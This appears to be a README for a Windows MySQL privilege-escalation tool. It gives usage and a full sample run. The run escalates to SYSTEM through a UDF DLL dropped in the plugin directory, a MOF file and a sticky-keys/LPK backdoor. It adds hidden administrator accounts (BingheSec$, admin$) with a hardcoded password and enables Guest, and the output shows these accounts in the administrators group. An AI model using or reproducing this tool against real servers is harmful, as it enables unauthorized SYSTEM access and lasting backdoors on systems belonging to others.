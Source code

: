 # mysql-promoting-privileges
之前写的python打包的

请注意：dll文件只有当服务器是03的时候需要上传
就算是服务器支持外联还是建议把程序传到服务器上运行，因为代码里加了调用os模块创建plugin目录
如果是远程的话 利用NTFS ADS来创建plugin目录，成功的几率比较小
#Usage：
```root.exe host port user passq```
#Response:
```
C:\Users\binghe\Desktop>root.exe 192.168.1.10 3306 root root

 ============================================================================
|                                                                            |
|                BingheSec Mysql Promote Privileges Tool                     |
|                                                                            |
 ============================================================================
Usage as: sec.py host port user pass
Example: sec.py 192.168.1.6 3306 root 123456
Current connection: 192.168.1.10:3306/root/root
Mysql Version is 5.5.40
Mysql Version>5.0 , UDF dll can only dump to plugin dir!
Mysql RootPath : C:/Program Files/phpStudy/MySQL/
UDF DLL PATH : C:/Program Files/phpStudy/MySQL/lib/plugin/BingheSec.dll

UDf will make the user 'guest' active and add to admin with the pass 789456123+abc
The sql of Dumping AddUser And AddToAdmin MOF File has queried OK.
Press shift 5 times then press 1,2 at the same time to start the lpk UI,pass:binghesec
Mof and LPK will add users named BingheSec$/admin$ with password: 789456123+abc
Mof file only fit for windows2003 , please test it byourself!
Command Query Result:
-------------------------------------------------------------------------------

Microsoft Windows [版本 5.2.3790]
nt authority\system
命令成功完成。

命令成功完成。

命令成功完成。

别名 administrators
注释 管理员对计算机/域有不受限制的完全访问权

成员

-------------------------------------------------------------------------------

admin$
Administrator
BingheSec$
Guest
命令成功完成。
```
